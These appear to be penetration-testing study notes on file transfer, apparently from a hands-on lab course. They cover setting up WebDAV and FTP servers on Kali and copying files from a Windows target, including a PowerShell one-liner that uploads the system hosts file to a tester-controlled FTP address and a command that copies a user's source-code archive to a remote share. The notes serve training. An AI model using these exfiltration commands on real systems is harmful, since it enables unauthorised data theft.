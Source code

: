 - Configuring WebDav Server:
	- `sudo pip3 install wsgidav cheroot`
- Using the WebDav Python module:
	- `wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous`
- Connecting to the Webdav Share:
	-  `dir \\192.168.49.128\DavWWWRoot`
- **Note:** `DavWWWRoot` is a special keyword recognized by the Windows Shell. No such folder exists on your WebDAV server. The DavWWWRoot keyword tells the Mini-Redirector driver, which handles WebDAV requests that you are connecting to the root of the WebDAV server.
- Uploading Files using SMB:
	- `copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\DavWWWRoot\`
	- `copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\sharefolder\`
- **Note:** If there are no SMB (TCP/445) restrictions, you can use impacket-smbserver the same way we set it up for download operations.

# FTP Uploads
---
- Setup on Kali:
	- `python3 -m pyftpdlib --port 21 --write`
- PowerShell upload function to upload a file to our FTP Server:
	- `(New-Object Net.WebClient).UploadFile('ftp://10.10.15.93/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')`
		- ALWAYS **use full path if getting error "2 arguments"**
	![[Pasted image 20250622070910.png]]

# **Labs**
----
=> Download the file flag.txt from the web root using wget from the Pwnbox. Submit the contents of the file as your answer. 
- `wget http://10.129.201.55/flag.txt`

=>  Upload the attached file named upload_win.zip to the target using the method of your choice. Once uploaded, unzip the archive, and run "hasher upload_win.txt" from the command line. Submit the generated hash as your answer.
- Normal python http-server

